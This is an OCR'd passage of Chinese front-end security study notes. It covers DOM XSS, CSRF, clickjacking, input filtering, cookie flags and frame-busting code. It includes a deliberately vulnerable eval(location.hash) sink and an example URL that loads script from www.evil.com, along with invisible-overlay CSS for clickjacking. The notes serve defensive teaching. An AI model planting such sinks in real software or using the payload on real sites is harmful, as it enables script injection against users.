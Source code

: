         

```
        <script>
            eval(location.hash.substr(1));
        </script>

        http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
        

```

    * CSRF 跨站点请求伪造 请求来源于其他网站
    

```
    http:www.a,com/del?id=21
    

```
    * 界面操作劫持
    	* 点击劫持
        * 拖放劫持
        * eg. 可见输入框内覆盖一个不可见的框
    
        

```
        filter: alpha(opacity=0);
        opacity: 0;
        z-index: 100
        

```

* 不要轻易相信任何外部传入的数据
	* 不要轻易信任用户输入的数据 -> 数据过滤
    	* Jq中$('').text() 而非 html()
        * 使用$('').attr() css()
        * URL -> encodeURL
        * jqencoder
        * setTimeout setInterval eval 这些函数都有安全隐患
    * 不要轻易信任任何传入的第三方数据
    	* JSONP 一定要检查从第三方返回的数据格式
    * 不要仅靠JS来阻止注入
* 其他前端安全防范实践
	* cookie 设置为httpOnly
    	* XSS不能通过JS获取Cookie
        * h5的localStorage
        * SSL 启用cookie的Secure设置
    * 防止网页被其他网站内嵌为iframe
    	* JS阻止
        
        

```
        <style id="antiClickjack">body{display:none !important; }<style>

        <script>
        if(self === top) {
            var antiClickjack = document.getElementById('antiClickjack');
            antiClickjack.parentNode.removeChild(antiClickjack);
        } else {
            top.location = self.location;
        }
        </script>
        // 首先设置不可见
        // 如果没有被内嵌移除不可见样式
        // 否则把顶层页面的地址设置成内嵌页面的地址
```